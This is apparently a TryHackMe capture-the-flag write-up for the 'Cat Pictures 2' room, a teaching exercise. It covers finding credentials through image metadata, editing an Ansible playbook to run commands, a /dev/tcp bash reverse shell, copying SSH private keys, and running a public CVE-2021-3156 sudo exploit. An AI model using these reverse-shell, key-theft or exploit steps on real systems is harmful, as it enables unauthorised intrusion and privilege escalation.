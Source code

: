 # Cat Pictures 2

A writeup for the room [Cat Pictures 2](https://tryhackme.com/room/catpictures2) on TryHackMe.

Main parts of the room:

- Reading image metadata
- Accessing Gitea and editing files using Git or in-browser editor
- Runnig custom Ansible tasks through OliveTin
- Exploiting CVE-2021-3156

> Now with more Cat Pictures!

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/4c424fa649d64938ae8282b14e4299ac.png" width="128" />

## Footprinting

Firstly, we can start with a nmap scan.

We find five open ports with three web servers publicly accessible.

```bash
nmap -sS <HOST>
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/nmap.png" />

```
22 -> SSH
80 -> Lychee Photo Album
222 -> Gitea SSH (?)
3000 -> Gitea
8080 -> python server (?)
```

## First flag

### Finding interesting metadata

We can begin by looking inside the Lychee Photo Album.

In the info of the first image we can find a message about stripping away the metadata.

<Image src="/images/writeups/thm/2023/cat-pictures-2/image.png" />

Once the image is downloaded, we can check its metadata to find an url to a secret txt note.

```
exiftool image.jpg
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/metadata.png" />

### The secret note

The url is `:8080/764efa883dda1e11db47671c4a3bbd9e.txt`

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

### Accessing Gitea

Now, we have the credentials for the Gitea instance.

Once logged in, we can see a repository called `ansible`.

<Image src="/images/writeups/thm/2023/cat-pictures-2/repo.png" />

Inside the repository there is a file called `flag1.txt`. Open it to get the first flag.

## Second flag

### Running Ansible tasks using OliveTin

From the secret note, we know that Ansible is accessible on the port 1337.

There we can find a OliveTin instance that allows to run the Ansible tasks.

<Image src="/images/writeups/thm/2023/cat-pictures-2/ansible.png" />

### Editing the playbook

It is possible to change the script `playbook.yml` through Gitea and then run it from OliveTin.

If you prefer you can also configure the ssh access and modify it from your machine.

<Image src="/images/writeups/thm/2023/cat-pictures-2/edit.png" />

Firstly, we can print the content of the home folder.

Following the example script, this is a possible solution.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print home folder
      become: false
      command: ls -lR ~
      register: ls_content
      changed_when: false

    - debug: var=ls_content
```

Run the script and check the output.

We can see that in the home folder there is a file called `flag2.txt`.

We can edit again the script to print the content of the flag.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print flag2
      become: false
      command: cat flag2.txt
      register: flag2
      changed_when: false

    - debug: var=flag2
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/ansible-output.png" />

If you check the output, you can see the second flag.

## Third flag

### Obtaining a reverse shell

For the third flag, it is better to use a reverse shell.

Remember to listen with:

```bash
nc -nlvp <PORT>
```

To check your IP use:

```bash
ifconfig
```

In this Gist you can find an example:

<Gist id="32ccf1baaa3066654a460265fca53960" />

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/rev.png" />

### Stealing ssh keys

To make the work easier, we can also steal the ssh key.

It is enough to copy the content of `~/.ssh/id_rsa` and paste it in a file on our machine.

Then, we can use the command `ssh -i <FILE> bismuth@<HOST>` to login.

### Exploiting CVE-2021-3156

We can try with LinPeas and LinEnum, but a faster way is to exploit the CVE-2021-3156 vulnerability.

[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

Download the file from the github repo and copy them on the machine.

After that, follow the instructions to exploit the vulnerability.

In the end, you should run something like this:

```bash
# build the exploit
make

# obtain a list of possible targets
./sudo-hax-me-a-sandwich

# select a target
./sudo-hax-me-a-sandwich 0
```

The third flag is in the root folder.

<Image src="/images/writeups/thm/2023/cat-pictures-2/pe.png" />
